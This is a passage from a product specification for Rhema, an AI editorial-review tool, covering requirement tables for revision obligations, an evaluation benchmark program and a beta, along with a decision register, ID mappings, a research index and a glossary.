| REQ-OBJ-2 | Spawn rules: blocking/major at delivery (system); minor on accept/adapt; note never; escalation keeps open + links the decision request; promotion and user rows | 11.7, 5.7 | new | golden dossier fixtures assert spawn counts per severity mix |
| REQ-OBJ-3 | Closing paths exactly: addressed→discharged (verified), rebutted (rationale DB-checked), deferred (rationale + horizon; auto-returns to open), mooted, labeled unverified user discharge; no bulk close; export/archive never block | 11.7 | new | state-machine property test enumerating transitions |
| REQ-OBJ-4 | Re-review consumes `obligations.json` (letter context only; never the second read), emits `carriesObligationId`; orchestrator computes carried/closed/new from rows and reconciles with the sidecar (mismatch = warning) | 6.2, 11.7 | new | planted-regression fixture yields `reopened` + roundsOpen increment |
| REQ-OBJ-5 | Stall detection (§6.8) and the Convergence report read obligation rows; identical for hand-run rounds | 6.8, 11.7 | new | two-round hand-run fixture with a persisting major escalates to the inbox |
| REQ-OBJ-6 | Surfacing: version-rail chip, what-changed discharge lines + summary strip, findings filter, run-sheet scope lines, inbox rows for escalations and expired deferrals | 5.6–5.8, 5.11 | new | snapshot tests on the three seeded projects |
| REQ-OBJ-7 | `BacklogItem` removed; rows migrate to `source='agenda'`; no new `ArtifactKind` from obligations (REQ-SPEC-14 enum untouched by them) | 11.3, 11.7 | new | migration test + contract-test count still 63 (the 63rd is REQ-OBJ-9's `preference_profile`, not an obligation kind) |
| REQ-OBJ-8 | Obligations never mounted into independence contexts (second read, fidelity audit, gap check) — enforced by the mount manifest | 11.7, 12.6 | new | hydration-manifest test per seat/context |
| REQ-OBJ-9 | `preference_signals`/`preference_profiles` workspace+user-scoped (1.x); consumers pin a profile snapshot recorded on the run; rendered `preferences.md` is kind `preference_profile` (§8.2 R9, pre-registered), SR, per-signal retire, no in-place edit | 8.2, 11.3, 11.7 | new (1.x) | snapshot pin appears in drafting-note header fixture |
| REQ-OBJ-10 | Preference profile mounted only into Drafter-/Assistant-seat runs; Editor-seat and independence-context manifests must not contain it (mount point reserved in §11.5 / §12.6) | 11.5, 11.7, 12.6 | new | contract test: editor seat's readable set excludes it (REQ-VIS-7 fixture family) |
| REQ-OBJ-11 | No parameter derived from dispositions (or reception of Editor output) may enter review configs, severity thresholds, phase prompts, or rubric anchors; Editor calibration inputs are venue tables and §18 results only | 11.7 | new | protocol-package input schema closed; CI enumerates allowed sources |
| REQ-OBJ-12 | Learned patterns change agent behavior only via (a) pinned-profile consumption by Drafter/Assistant or (b) standing-guidance suggestions the user accepts verbatim as ordinary `Guidance` rows | 11.7, 6.5 | new (1.x) | no code path activates guidance without a user decision row |
| REQ-OBJ-13 | Every signal statement carries queryable provenance ("because you…" links); strengths are counts/rates, never opaque scores | 11.7 | new (1.x) | UI snapshot shows provenance on every row |
| REQ-OBJ-14 | Learning account-local, default-on with Settings→Data opt-out (Q-26, ratified); recomputed on project deletion; exported and deleted with the account; cross-account requires a separate opt-in design | 11.7, 14.7 | new (1.x) | opt-out flips consumption within a minute; export zip contains the profile |
| REQ-OBJ-15 | No `argument_map` kind, table, or UI in MVP/1.x; the v2 spike (gated on the §18 corpus, three graduation criteria, binding kill criteria) is the only sanctioned path | 11.7, 17 | new | spike protocol quotes the criteria before any run is paid for |
| REQ-OBJ-16 | Substrate accrual deliberate: anchors, `claim.sources[]`, reverse outline, steelman/vulnerability map stay joinable by anchor + claim id | 11.7 | new | contract test: every structural sidecar uses §11.3 `Anchor` verbatim |
| REQ-OBJ-17 | `ClaimVerdict` vocabulary frozen as the claim-level judgment set; any change is a protocol version bump, never a rename-in-place | 11.3, 11.7 | new | sidecar schema pins the enum; goldens fail on drift |
| REQ-OBJ-18 | Claims carry `sources[]` stance edges as `claim_sources` rows; singular `url` remains the verdict-determining source; REQ-VIS-9 widened to every `sources[].url` | 11.3, 11.4, 8.4 | new | two-source fixture round-trips; delivery fails when one URL absent from fetch log |
| REQ-OBJ-19 | Claims carry `kind`; fact-check scopes spend to checkable kinds; non-checkable kinds render "not a matter of verification", never `unverifiable` | 11.3, 11.7 | new | Quick-notch fixture spends its 5-claim cap only on checkable claims |

### A.11 REQ-EVAL (design/16 — evaluation program; added v0.3)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-EVAL-1 | Benchmark corpus: ≥24 (target 30) commissioned, unpublished, human-written drafts, Essay-weighted, licensed; three real projects = frozen dev set, never in headlines; synthetic suites never published | 18.1 | new | corpus manifest audit |
| REQ-EVAL-2 | Contamination controls per draft: post-cutoff creation, no-AI attestation, near-duplicate search, canary, per-wave memorization probe with pre-registered exclusion | 18.1 | new | per-draft evidence record |
| REQ-EVAL-3 | Access-logged enclave; never training/fixtures/demos/marketing; provider no-training/retention terms verified in writing before any transmission; ≥20%/yr rotation | 18.1 | new | enclave access log; written provider verification on file |
| REQ-EVAL-4 | Gold set: two independent professional editors in the Finding schema + `material` flag; senior adjudication; IAA reported; below-floor drafts re-adjudicated or dropped | 18.1 | new | IAA per draft in the wave report |
| REQ-EVAL-5 | Paired per-draft analysis; pilot wave estimates variance; n fixed at ≥80% power for a 10-point difference, floor 24 | 18.1 | new | pilot-wave report fixes n |
| REQ-EVAL-6 | Six arms incl. the steelmanned best-of-two frontier one-shot (adversarially owned, same inputs as Rhema, prompt published, re-steelmanned each wave); Rhema arms run the production engine/protocol as they will ship, no eval-only tuning or forks | 18.2 | new | steelman audit per wave |
| REQ-EVAL-7 | Blind normalization of all arm outputs into the common finding schema; verbatim-substance rule; fidelity audited on a sample | 18.2 | new | 10% extraction audit |
| REQ-EVAL-8 | Recall matching, FP validity, novelty, post-revision preference decided by trained blinded humans; automated matchers only suggest | 18.3 | new | adjudication records |
| REQ-EVAL-9 | Judge hardening: secondary-only LLM judges, cross-family, position-swapped, anchored rubrics, per-unit scoring, per-wave κ ≥ 0.6 calibration gate; C-a…C-g binding | 18.3 | new | judge-calibration table per wave |
| REQ-EVAL-10 | Pre-registration frozen and hash-committed before each scored wave; deviations logged; dev set exempt | 18.3 | new | hash-commit reference in report |
| REQ-EVAL-11 | All twelve metrics computed per wave; headline scoring reference-based, never pairwise | 18.3 | new | wave-report schema |
| REQ-EVAL-12 | Voice preservation via the product's voice-print bands + claim-inventory meaning diff; cross-arm convergence reported | 18.3 | new | meaning-diff violations table |
| REQ-EVAL-13 | Second-read marginal contribution = gold hits unique to `origin=second_read` kept at reconciliation; supersedes §16.3 #13 | 18.3 | new | deterministic on human-matched data |
| REQ-EVAL-14 | Every quality table carries proxy-metered cost + wall-clock; recall-per-dollar curve | 18.3 | new | §12.7 metering join |
| REQ-EVAL-15 | LIFT: ≥15 points absolute major/blocking material-issue recall over A1 at no-worse invalid rate, two consecutive waves; ≥60% pairwise revision preference; voice conformance not worse | 18.4 | new | pre-registered criterion; numbers confirmed 2026-09-01 (§16.3 #27) |
| REQ-EVAL-16 | Go/no-go pre-committed: claims gate always; one miss = marketing off + premium re-justified; two misses on a healthy benchmark = R&D freeze + operator disposition; adverse results reported unspun | 18.4 | new | consequence log |
| REQ-EVAL-17 | Cadence: pilot at Phase-0 exit; wave 1 pre-launch; quarterly; frontier release → mini-wave ≤30 days | 18.4 | new | wave calendar |
| REQ-EVAL-18 | Publish methodology + baseline prompts + aggregates with stability bands; corpus/gold/per-draft/protocols private; NDA audit path; copy cites wave id | 18.5 | new | publication checklist |
| REQ-EVAL-19 | Extends REQ-GROWTH-5: comparative/superiority statements only from a criterion-meeting pre-registered wave; preliminary always labeled | 18.5, 15.1 | new | marketing lint + review |
| REQ-EVAL-20 | Benchmark runs on the §12 architecture, §12.7 metering, pinned versions, config-hash per run; harness beside `evals/` | 18.5, 13.5 | new | config-hash on every benchmark run row |

### A.12 REQ-POS (design/17 — wedge, positioning, authorship; added v0.3)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-POS-1 | Essay-led GTM (Q-21, ratified): hero, recording, Showcase, pricing lead card, launch channels address the serious essayist; Academic/Op-ed/Memo ship complete, never headline; revisit at the 90-day re-base | 2.1, 15 | new (Q-21 ratified) | launch-surface review |
| REQ-POS-2 | §2.1 segment table Essay-first; pricing page leads with the Essay card, Academic second; Op-ed remains the trial's featured demo | 2.1, 15.2 | new (Q-21 ratified) | to write (O6) |
| REQ-POS-3 | Showcase is Essay-protocol; its claim ledger contains ≥1 contradicted Tier-1 claim with fetched URL | 16.3 #21, 15.3 | new (Q-21 ratified) | Showcase content check |
| REQ-POS-4 | Headline stays "An editorial board for everything you write."; the category thesis appears in §1.1 prose/docs/analyst material only, never as a hero headline | 1.1, 15.1 | new | copy lint |
| REQ-POS-5 | Draft is a supporting act in every narrative surface, never in product: no hero/proof surface depicts prose generation; product scope unchanged; added to the copy-lint family | 1.1, 15.1 | new | REQ-PROD-6-family lint |
| REQ-POS-6 | AI-use statement ships at MVP as per-protocol templates over the REQ-GENRE-5 generator; a service, never a gate | 6.7, 8.4 | new (Q-24, ratified) | to write (O6) |
| REQ-POS-7 | Block-level provenance appendix at MVP in appendix-capable export formats; granularity labeled; off by default, one export-dialog toggle | 8.4, 13.4 | new | export fixture |
| REQ-POS-8 | Block-level Authorship overlay at MVP: View-menu toggle (Advanced), sidecar decorations, read-only, never stored in markdown | 5.4, 8.4 | new | to write (O6) |
| REQ-POS-9 | Agent-origin transactions record span-granularity provenance at capture; a human edit inside a recorded span degrades the block to `mixed` (no span rebasing); write-only at MVP, renderable retroactively | 5.4, 8.4 | new | capture + degrade fixture |
| REQ-POS-10 | Span-level marks, span overlay, span-granular export remain 1.x; matrix row 39 moves only these; §8.4 floor promises block-level at MVP | 3.2, 8.4 | new | to write (O6) |
| REQ-POS-11 | §15.1 hero copy and section order per v0.3; the no-generation copy rule enforced by the REQ-GROWTH-5 review | 15.1 | new | copy review |
| REQ-POS-12 | §1.6 moat statement in the spec; no marketing claim may cite an asset marked "not yet built" | 1.6 | new | marketing lint |
| REQ-POS-13 | No copy references AI-detection or platform scanning; authorship-legibility framing permitted, detection-evasion never | 15.1, 16.4 | new | copy lint |

### A.13 REQ-BETA (design/18 — Review beta; added v0.3; binding only if Q-22 chooses the beta)

| ID | One line | Spec § | Status | AC |
|---|---|---|---|---|
| REQ-BETA-1 | The beta implements all nine steps of the core loop on the spec's existing designs (no new invention) | 17 | new (Q-22 ratified) | step-by-step trace to spec sections |
| REQ-BETA-2 | Beta-window north star: repeat review/revision cycles on important manuscripts (venue set + headed-to-publication); "pieces accepted" resumes at public launch | 3.5, 17 | new (Q-22 ratified) | dashboard definition |
| REQ-BETA-3 | Inclusion rule: a Phase-1 feature ships in the beta iff on the nine-step flow, engine work needed regardless, or required for safety/metering; everything else deferred, not cancelled | 17 | new (Q-22 ratified) | epic tags |
| REQ-BETA-4 | Budget ≈ 29.5–39.5 PM total (28–37 base — beta Phase 0 ≈ 16.5–21, Draft's port defers, + 10–15 beyond — plus the 1.5–2.5 obligations delta); double-work tax ≈3–5 PM | 17 | new (Q-22 ratified); amended v0.3 final | re-estimate at Phase-0 exit |
| REQ-BETA-5 | Full §3.5 event catalogue for beta surfaces + the additions below; standard envelope; cost/rigor on every run event | 3.5, 17 | new (Q-22 ratified) | event audit |
| REQ-BETA-6 | Optional one-tap `reason_code` on every disposition (wrong · stylistic_disagreement · already_knew · too_costly · not_this_round · other); never required text | 5.7 | new (Q-22 ratified) | event fixture |
| REQ-BETA-7 | `revision.move_traced{finding_id, move_id, hunk_count, chars_changed}` at Revise delivery and manual-revision diff | 5.8 | new (Q-22 ratified) | event fixture |
| REQ-BETA-8 | `rereview.lineage{carried, closed, new, reopened}` per re-review run | 6.2 | new (Q-22 ratified) | event fixture |
| REQ-BETA-9 | `round.completed{ordinal, manuscript_id, important}` — repeat-cycles as a first-class counter | 3.5 | new (Q-22 ratified) | event fixture |
| REQ-BETA-10 | `surface.dwell{surface, ms}` heartbeat; the chat half of dossier-vs-chat is unmeasurable in-product (accepted cost; recovered via interviews + paste-back patterns) | 3.5 | new (Q-22 ratified) | event fixture |
| REQ-BETA-11 | `draft.imported{origin, is_new_manuscript, venue_set}` | 3.5 | new (Q-22 ratified) | event fixture |
| REQ-BETA-12 | `wtp.recorded{source, amount}` + `credits.exhausted_prompt{action_taken}` | 3.5, 14 | new (Q-22 ratified) | event fixture |
| REQ-BETA-13 | Weekly beta dashboard from the stream: repeat-cycle rate, round-2 rate, accept+adapt, second-read yield, rubric-delta, reason codes, per-run margin, gate metrics | 3.5 | new (Q-22 ratified) | REQ-PROD-16 applies |
| REQ-BETA-14 | Invite-gated signup; operator-granted house credits ($150–300 COGS-equivalent) via admin CLI as ordinary ledger grants; every run through the real sheet (estimate, cap, hold, consent, metered debits, refunds) | 14, 17 | new (Q-22 ratified) | ledger audit |
| REQ-BETA-15 | Behavioral WTP: real purchases via Stripe Payment Links at exhaustion; final-month beta-priced plan offer at the Writer anchor; conversion is a gate metric | 14, 17 | new (Q-22 ratified) | gate readout |
| REQ-BETA-16 | 20–25 partners in three cohorts (~8, two weeks apart); Essay-led profile; screened for a real in-flight manuscript, quarterly publishing, stated WTP | 17 | new (Q-22 ratified) | cohort roster |
| REQ-BETA-17 | The partner deal: house credits, direct access, feedback triaged with the five verbs in a visible ledger, price lock, no training/marketing without written consent, deletion on request; partners commit to ≥2 manuscripts × ≥2 rounds, instrumentation, monthly interview, end-of-beta purchase decision | 17 | new (Q-22 ratified) | signed deal per partner |
| REQ-BETA-18 | Pre-registered behavior gates (proceed / pivot / stop) decided before the beta opens; measured over ≥90 days with ≥15 active partners **(amended 2026-09-23 — read early on operator evidence → PROCEED without the window; caveat recorded — see the note after this table)** | 17 | new (Q-22 ratified) | gates registered before open |
| REQ-BETA-19 | The beta is private and capped: no PR, no public pricing page, light-touch no-publish request; the launch moment reserved for the full IDE **(amended 2026-09-16 — open self-serve signup + self-serve credit purchase permitted; see the note after this table)** | 17 | new (Q-22 ratified) | to write (O6) |
| REQ-BETA-20 | Sequence gates: Phase-0 exit → §18 lift gate → beta open → REQ-BETA-18 gates → full IDE → public launch; each threshold pre-registered before the work behind it starts | 17 | new (Q-22 ratified) | gate registry |
| REQ-BETA-21 | The beta is a strict subset of Phase-1 epics ordered loop-first (`beta`/`post-beta` tags); exactly two beta-only stopgaps (CodeMirror edit mode → Source mode; flat surfaces → §5 shells); demand-sensitive epics start only after the gates read | 17 | new (Q-22 ratified) | ticket-tag audit |
| REQ-BETA-22 | The Q-22 record states the chosen option, the decision rule, and (if beta) the REQ-BETA-18 thresholds verbatim, so the go/no-go is mechanical | 16.3 #26, 17 | new (Q-22 ratified) | decision record |

**Amended 2026-09-16 — REQ-BETA-19 (and the §17 beta row's "private, invite-only").** The beta is
no longer private/invite-only: a **public self-serve signup** and **self-serve credit purchase via
Stripe Payment Links** are permitted ahead of the full-IDE launch (the H3 partner program is
deferred — users pay their own way). **Kept, verbatim:** no PR, no marketing site, no launch moment
(reserved for the full IDE), no public pricing page beyond what the purchase flow itself needs, and
**no §16.4 efficacy/marketing claims on any surface until GATE G2's LIFT criterion is met**
(REQ-EVAL-19). Stripe Payment Links remain the one real-money channel (REQ-BETA-15); the invite
machinery stays for partner cohorts. See the §17 amendment banner and **ADR-008**; recorded in
`docs/tickets/00_MANIFEST.md` § Spec amendments applied.

**Addendum 2026-09-23 — REQ-BETA-18 (and G3's §17 gate).** The gate was **read early on operator
evidence → PROCEED**: the ≥90-day / ≥15-active-partner window was skipped entirely (the self-serve
opening above means the partner cohort never existed as designed). Evidence read in lieu of
partner data: the platform live end-to-end on prod, a Review delivered within a derived cap, and
the measured cost structure. **Caveat recorded:** the thresholds were never evaluated — the read
is weaker by construction; the $7–10/review cost finding vs the $20/mo WTP stop-threshold would
itself have been a pivot signal. The full-IDE ticket bodies (rows 29–50) unblocked. See the §17
addendum banner and **ADR-105**; recorded in `docs/tickets/00_MANIFEST.md` § Spec amendments
applied.

**Addendum 2026-10-20 — REQ-BETA-19's launch-moment clause and REQ-BETA-20's sequence
(ADR-111).** REQ-BETA-19's "the launch moment reserved for the full IDE" is superseded: the
public launch of rhema.tools proceeded 2026-10-28 once `GATE-LAUNCH` passed (the full IDE had
landed — rows 29–50 — and the round-4 SPA serves prod). REQ-BETA-20's "Phase-0 exit → §18 lift
gate → … → public launch" ordering is amended where it bites: the §18 lift gate no longer stands
before the launch — G2/H2 continue as the post-launch research program (BL-40/43/44/45; owner:
operator). **Kept, verbatim:** no §16.4 efficacy/superiority claim on any surface until a
pre-registered wave meets REQ-EVAL-15 — the REQ-EVAL-19 lint still enforces it — and
REQ-EVAL-16's consequences apply retroactively if a later wave fails. See the §17 banners and
**ADR-111**.

---

## Appendix B — Decision register

### B.1 Operator decisions (Q-1…Q-20) and where the spec implements them

| ID | Decision | Implemented in |
|---|---|---|
| Q-1 | Product name **Rhema** | throughout |
| Q-2 | Built with agents; this spec → ticketing session; no calendar dates | §17; Appendix A hooks |
| Q-3 | No Python; TypeScript; AWS-first; judge third-party dependencies on cost-at-scale and control | §13.1; tension C8 in §16.2 |
| Q-4 | Anthropic first, multi-provider by design, curated model choice, platform-billed; BYO keys optional | §12.3; §14.2 (BYO 1.1) |
| Q-5 | Pricing delegated to research | §14 (research/10 ladder, refined by R4–R7) |
| Q-6 | Single-author first; Databricks-style roles later | §11.6 (1.x) |
| Q-7 | Human gates on by default | §6.4 (Approvals; refinements D5, D6) |
| Q-8 | Footnotes, basic citations, AI-generated visualizations first-class | §5.4; §7.5 |
| Q-9 | No publishing; export-only | §13.4; §3.4 |
| Q-10 | $50–100/run extreme case → model the curve | §6.1, §14 (provisional; open q. 1) |
| Q-11 | No persona ethics gating; Mode metadata only; ToS note once | §9.2; REQ-ARCH-8 |
| Q-12 | Reasonable privacy posture; concede no more than necessary | §13.3; §14.7 |
| Q-13 | Single spec doc in `~/Rhēma` | this file |
| Q-14 | Dark by default; Substack as counter-inspiration | §5.9; §15.1 |
| Q-15 | Multiple genres in MVP | §6.7 (Academic, Essay, Op-ed, Memo) |
| Q-16 | Roadmap skills fully specified in v1 + invented skills | §6.2 (departure D4 for structured dialogue) |
| Q-17 | English-only MVP | §3.2 row 74 |
| Q-18 | Limited mobile app | §10 (departure D3 on timing) |
| Q-19 | Closed-source, open-source-ready | §13.2 |
| Q-20 | Everything negotiable with presumption for the operator | §16.1 |

### B.2 Synthesis rulings

R1–R18 are in §0.3 with reasons; the departures they cause are in §16.1–16.2. The round-2 rulings (v0.3), each traceable to a workstream document:

| # | Ruling | Source |
|---|---|---|
| R19 | **RevisionObligation adopted for MVP** — the one deliberately mutable object over the immutable record; spawn/discharge/lineage per §11.7; `BacklogItem` folded in; +1.5–2.5 PM; "Obligation" enters the fixed vocabulary, "backlog" leaves | design/15 §1 (B1); critique §7 |
| R20 | **Preference profile: build the asset, firewall the Editor** — workspace-level (not Voice), capture at MVP, learning 1.x/2.0, three-layer enforcement (mount exclusion, closed derivation schema, human-approved release valve); Q-26 privacy recommendation default-on account-local with opt-out | design/15 §2 (B2) |
| R21 | **No argument object before the v2 spike**, gated on the §18 corpus with binding kill criteria; substrate accrues under stand-alone features | design/15 §3 (B3) |
| R22 | **Verdict vocabulary frozen; stance edges and `claim.kind` adopted; numeric confidence rejected** — the critique's labels are per-source edges, the spec's are per-claim judgments; complements, not competitors | design/15 §4 (B4) |
| R23 | **The comparative benchmark is §18**, with the LIFT criterion (≥15 pts / ≥60% / two waves), pre-committed go/no-go consequences, and the publish-methodology/keep-corpus-private split; REQ-EVAL-13 supersedes §16.3 #13; REQ-EVAL-19 extends REQ-GROWTH-5 | design/16 (C1–C5) |
| R24 | **Essay-led GTM recommended (Q-21, ratified 2026-09-01); Draft demoted in narrative only; headline unchanged; category thesis into §1.1; §1.6 moat statement added** — the wedge decision is narrative, not scope; Academic ships complete per Q-15 | design/17 §§1, 3, 4 (D1, D3, D4) |
| R25 | **Authorship-legibility MVP slice S1–S4 applied to row 39 (Q-24, ratified 2026-09-01)** — R14 over-bundled row 39; only span *rendering* belongs to the F46 cost family; ≈1.25–2 PM; span marks stay 1.x | design/17 §2 (D2); research/13 §A3 |
| R26 | **Validation-first sequencing recommended (Q-22, ratified 2026-09-01)** — Phase 0 → benchmark → Review beta → full IDE → public launch, built as a sequenced Phase 1 with a recorded decision rule; the full IDE remains the destination on every branch | design/18 (E1, E2) |

### B.3 Canonical ledger row IDs (resolving duplicate proposals)

The design documents proposed new ledger rows under colliding IDs. Canonical assignment, used everywhere in this spec:

| Canonical | Item | Proposed as (source) |
|---|---|---|
| C17 | Terminal project states (Accepted / Exported / Archived / Edited by you) | C17 (research/2, design/9) |
| C18 | Standing escalations → Decisions inbox | C18 (research/2, design/3) |
| C19 | `Guidance` object | C19 (design/6) |
| C20 | i18n vocabulary lint (REQ-PROD-6) | C20 (design/9) |
| C21 | Venue table governance (`verified_at`, re-verification) | C21 (design/9) |
| C22 | Quick review profile (phases, claim cap 5, word cap, tier, estimator constants) | C22 (design/9); "C18" (design/4); "C-x" (research/6) |
| C23 | Showcase project content and refresh policy | "D22" (design/4); "D-x" (research/6) |
| D20 | Round walkthrough & run report | D20 (design/2, research/4) |
| D21 | Provenance linkage artifact → run/phase | D21 (design/2) |
| D22 | Paper theme policy | D22 (design/2); "D21" (research/5) |
| D23 | Findings view modes & bulk preview | D23 (design/2); "D20" (research/5) |
| D24 | Web reader-only breakpoint with app banner | "D22" (design/7) |
| D25 | Chat threads & compaction brief | "D22" (design/6) |
| D26 | Project header voice chip and project-level staleness states | "D22" (design/8) |
| D27 | Billing-vocabulary and Ask/Run component lint | "D23" (design/4) |
| E7 | Support-access policy for run transcripts; 30-day lifecycle | E7 (design/3) |
| F9 | Review keyed by (version, run) | F9 (research/2, design/2, design/3) |
| F10 | Ledger-markdown parsers with golden tests; `parse_status` fallback | F10 (design/3) |
| F11 | Path→kind map and phase→artifact manifest as one versioned module | F11 (design/3) |
| F12 | Restore-point and event retention per plan | F12 (design/3) |
| F13 | `assets/` shared-record directory | "F10" (design/6) |
| G14 | `phase` skill input | G14 (research/7, design/5) |
| G15 | `Engine` abstraction | G15 (research/7) |
| G16 | Boundary hook + audit spec | G16 (research/7) |
| G17 | Fallback fetcher (deferred to 1.x) | G17 (research/7) |
| G18 | Input-scoped subagent primitive | "G14" (research/2); G18 (design/5) |
| G19 | AgentCore / Managed Agents spike | "G14" (research/11); G19 (design/5) |
| G20 | Phase manifest package + conformance tests | G20 (design/5) |
| G21 | `FakeEngine` + recorded fixtures from instrumented golden runs | G21 (design/5) |
| G22 | `scope` skill input | "G18" (design/6) |
| H9 | Rhema Markdown profile + golden round-trip suite | H9 (research/8) |
| H11 | Findings re-anchoring service | H11 (design/2) |
| I6 | PDF quality bench on the six real PDFs | I6 (research/9) |
| I7 | Substack/Medium export-zip importers | I7 (research/9); "I8" (design/8) |
| I8 | Connection auth storage and `needs_reauth` | "I9" (design/8) |
| J9 | Seed-hash rule | J9 (design/8) |
| J10 | House-style sourcing register | J10 (research/12) |
| J11 | Persona-run estimate formulas | J11 (design/8) |
| J12 | Hold-out leak audit that voids calibration | J12 (design/8) |
| J13 | `charter.reseed` run and diff renderer | J13 (design/8) |
| K7 | Run resumability | K7 (research/3, design/5) |
| K8 | Project state derivation function as one shared module | "K8" (design/9) |
| K9 | Approval deadline policy (pause-while-reading, per-kind defaults, recorded decisions) | "K8" (design/2) |
| K10 | Mid-run guidance delivery points and steering semantics | "K8" (design/6); "K8" (design/5) |
| K11 | Re-plan cap and partial-state guarantees per workflow | "K8" (design/3) |
| L10 | Metering fairness rules | L10 (research/3) |
| L11 | Estimate service (with cap-adaptation and the free claim pre-pass) | L11 (research/10, design/4, design/8) |
| L12 | Spend step-up policy (user threshold + server fresh-auth threshold) | "L11" (design/7) |
| L13 | Stripe Tax registrations by geography | "M10" (research/10); L13 (design/5) |
| L14 | Nightly reconciliation job | "L13" (design/4) |
| M10 | Egress proxy | M10 (research/11, design/5) |
| M11 | Run-task image contract | M11 (research/11) |
| M12 | Licence policy | M12 (research/11) |
| M13 | Deterministic measurement service (`packages/measure`) | "M10" (research/2); M13 (design/5) |
| M14 | Internal run API contract and run-token claims | M14 (design/5) |
| M15 | Claude Platform on AWS auth-mode spike | M15 (design/5) |
| M16 | Figure render worker | "M13" (design/6) |
| M17 | Block-patch service (headless ProseMirror behind Hocuspocus) | "M13" (design/7) |
| M18 | Notification service (inbox items, devices, prefs, transport, quiet hours) | "M14" (design/7) |
| M19 | App-store compliance review | "M15" (design/7) |
| M20 | Trial abuse controls | "M11" (design/4) |
| N4 | `origin=human_revision` with pending-verification claims and "Revise using your edits" | N4 (research/2, design/2, design/3, design/9) |

---

## Appendix C — Research index

| Note | What it settled for this spec |
|---|---|
| research/2 Source-system extraction | The 39-artifact inventory, the four-state source machine and its missing terminal states, the 21 boundary rules that became runtime mechanisms, the harness requirements, the "user is the author" reading that narrowed T3, the F9/N4/C17/C18 proposals |
| research/3 Coding-agent UX part 1 | Dollar-pegged credits and per-run price cards (T7 refined); plan-then-build behind approval as industry norm (Q-7 validated); checkpoints restore files, never chat; the sessions-first reality that reconciled T1 |
| research/4 Coding-agent UX part 2 | The one run grammar; soft gates with timers; steering primitives; state-grouped run lists; the surface → prose-analogue matrix; usage attribution without token-soup |
| research/5 Writing products and Substack | Paper-in-a-dark-shell measurements (serif 17 px, 68 ch); findings as comments carrying suggestions with dispositions replacing "resolve"; span provenance and AI-use statements; consumer and academic price anchors; the mobile web-vs-app split |
| research/6 Landing, onboarding, trials | Drop-zone hero with a real recording; dark default as differentiator; Google + magic link with deferred verification; the showcase project as $0 activation; the capped reverse trial and single paywall |
| research/7 Execution harness options | Self-hosted Claude Agent SDK (TS) over every alternative; consumer subscriptions off the table; Claude Platform on AWS over Bedrock; input-scoped subagents; SDK cost figures as estimates; the Engine abstraction |
| research/8 Editor technology | Tiptap MIT core with in-house comments/suggestions/compare; Yjs + Hocuspocus autosave; the four-layer never-lose-work design; version semantics; the Rhema Markdown profile; pandoc + Typst export |
| research/9 Ingestion, export, visualization | Two ingestion pipelines (structured vs layout), no-Python end to end; Substack public endpoints + export zip, never cookies; canonical Markdown normalization; hash-based staleness; figures as spec + data + provenance rendered in Node |
| research/10 Pricing, billing, auth | The cent-credit ladder and the 1.4× rate; the parametric cost model (≈75% cache-read; claims dominate); Stripe + owned ledger; Better Auth; the estimate-and-cap contract; trial abuse controls |
| research/11 Platform, orchestration, AWS | The ECS/Aurora/S3/Redis stack; Postgres run ledger + pg-boss with a Temporal path; Fargate-per-run sandbox with proxy-only egress; SSE with resumable seq; the visibility split; licence policy; monorepo layout |
| research/12 Skills, genres, personas | Genre as a protocol object and the four MVP protocols; the twelve v1 skills and the later set with reasons; loop-to-convergence as gated orchestration; T5's four inputs; the soft-lock argument; house styles; the impersonation notice |
| research/13 Critique evidence verification (round 2) | 26 critique citations verdicted (21 verified · 4 partially · 1 unreachable · 0 fabricated); the $30–80 price floor collapsed; competitive landscape re-verified 2026-09-01 (critique understates it); Substack scan mechanism and the authorship-risk model; the debate/judge literature reconciliation and judge requirements C-a…C-g |
| design/14–18 (round 2) | The 81-row critique crosswalk (14; corrected by research/13, dispositioned in Appendix F); obligations, preference profile, argument-graph posture, evidence edges (15); the evaluation program (16); wedge, positioning, authorship slices (17); the Review beta and Q-22 decision memo (18) |

---

## Appendix D — Glossary and reserved strings

### D.1 Glossary

| Term | Definition |
|---|---|
| **Apply** | The free verb on a suggestion-bearing finding: writes the replacement into the working head now, as a plain transaction, and records `accept · applied`. |
| **Approval** | A human gate rendered as an approve-with-deadline card; named for its artifact (Approve plan, Confirm scope, Approve triage, Approve outline, Approve sample, Approve cut list, Choose a thesis, Continue?). The four spend and refusal kinds — `confirm_cost`, `spend_overrun`, `resume_partial`, `refusal` — always wait and never auto-proceed. |
| **Assistant** | The in-IDE research chat seat; author-side; reads the shared record and the Drafter's notebook (frozen ledgers only); writes only `agents/assistant/`; runs Research bursts. |
| **Attestation** | The runtime-generated access report proving the boundary held, shown as a trust chip. |
| **Base / Balanced / Frontier** | Model quality tiers (Sonnet-class / Opus-class judgment / Fable-class judgment), ≈1× / 2.2× / 4.5× credits. |
| **Cap** | The guaranteed maximum charge for a run: `ceil(1.5 × estimate)`, editable upward. |
| **Claim ledger** | The Editor's table of checkable claims with a `ClaimVerdict` (six values; a seventh under the Memo protocol), URL and accessed date per row; produced with a structured sidecar. |
| **Credit** | 1 credit = $0.01 of Rhema usage (provider list cost × 1.4). |
| **Disposition** | The author's decision on a finding: accept / adapt / rebut / defer / escalate; dispositions write the response ledger. |
| **Drafter** | The author-side agent seat (storage namespace `agents/author/`); Map the field runs under it. |
| **Editor** | The independent review seat; its deliberations are sealed; its dossier is the product; Steelman runs under it. |
| **Entitlement** | The trial's included first Review (≤6,000 words, Standard, Base), consumed by one run and shown as *Included* on the sheet. |
| **Finding** | An anchored comment from the Editor that may carry a suggestion; severity blocking / major / minor / note; kinds claim / discourse / argument / structure / craft / voice / continuity. |
| **Free / Writer / Studio / Studio Max / Team** | The plans. Trial is a 14-day state of Free. |
| **Frozen** | A draft version that a run has read, a dossier references, the user promoted, or an export targeted; immutable thereafter. |
| **Guidance** | The only human input the skills accept after launch; an object with source, anchors, and consumption record; may be standing (per project). |
| **Mirror** | The per-run on-disk materialization of project memory, mounted per seat; a cache, never a source of truth. |
| **Obligation** | A durable revision debt (`RevisionObligation`, §11.7): spawned by blocking/major findings at delivery (minors on accept/adapt), mutable with an append-only transition history, closed only by a verified move, an argued rebut, a horizoned defer, or mooting; reopened on regression. |
| **Persona builder / Rhema** | The two non-user-facing seats: the voice-profile builder (`persona_builder`) and the orchestrator itself (`system`, badge "Rhema"). |
| **Phase** | A step of a workflow from the skill's own regimen; the unit of orchestration, progress, and cost; complete only when the completion oracle says so. |
